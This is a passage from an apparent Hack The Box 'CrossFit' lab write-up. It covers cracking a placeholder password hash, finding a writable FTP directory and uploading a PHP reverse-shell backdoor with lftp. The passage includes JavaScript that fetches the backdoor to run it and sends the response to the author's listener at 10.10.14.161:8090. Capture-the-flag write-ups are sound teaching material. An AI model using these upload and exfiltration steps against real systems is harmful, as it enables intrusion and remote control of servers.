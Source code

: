 This file contained a password hash, which I loaded into hashcat.  It cracked almost instantly to reveal ... 'password'.  This was most likely a placeholder.

```text
lftp test3@ftp.crossfit.htb:/> ls
drwxrwxr-x    2 33       1002         4096 Jan 15 21:45 development-test
drwxr-xr-x   13 0        0            4096 May 07  2020 ftp
drwxr-xr-x    9 0        0            4096 May 12  2020 gym-club
drwxr-xr-x    2 0        0            4096 May 01  2020 html
```

While I was looking at the four main folders' permissions, I realized that the permissions for `/development-test` allowed for writing to the directory.

```text
lftp test3@ftp.crossfit.htb:/> ls
drwxrwxr-x    2 33       1002         4096 Jan 15 21:45 development-test
drwxr-xr-x   13 0        0            4096 May 07  2020 ftp
drwxr-xr-x    9 0        0            4096 May 12  2020 gym-club
drwxr-xr-x    2 0        0            4096 May 01  2020 html
lftp test3@ftp.crossfit.htb:/> cd dev
cd: Access failed: 550 Failed to change directory. (/dev)
lftp test3@ftp.crossfit.htb:/> cd development-test/
lftp test3@ftp.crossfit.htb:/development-test> put ~/php-reverse-shell.php 
5495 bytes transferred
```
```

Using the FTP command `PUT` I was able to upload files.  I used this to upload a PHP backdoor that would send me a reverse shell when executed.

```javascript
//get and run reverse shell
//
var test = "http://development-test.crossfit.htb/php-reverse-shell.php";
var request1 = new XMLHttpRequest();
request1.open('GET', test, false);
request1.send()
var response1 = request1.responseText;

//send response1 to my waiting python http.server 
var request2 = new XMLHttpRequest();
request2.open('GET', 'http://10.10.14.161:8090/' + response1, true);
request2.send()

```

I once again modified my original JavaScript exploit from earlier, this time simply requesting access to my PHP backdoor.  I hoped that this would execute the code within and send me a reverse shell.  On this one I took a logical leap.  I assumed that since each of the other folders was running a virtually hosted web domain that `development-test` would be the same \(even though there was currently no web page hosted there\).

```text
10.10.10.208 - - [15/Jan/2021 22:36:59] "GET /test4.js HTTP/1.1" 200 -
```
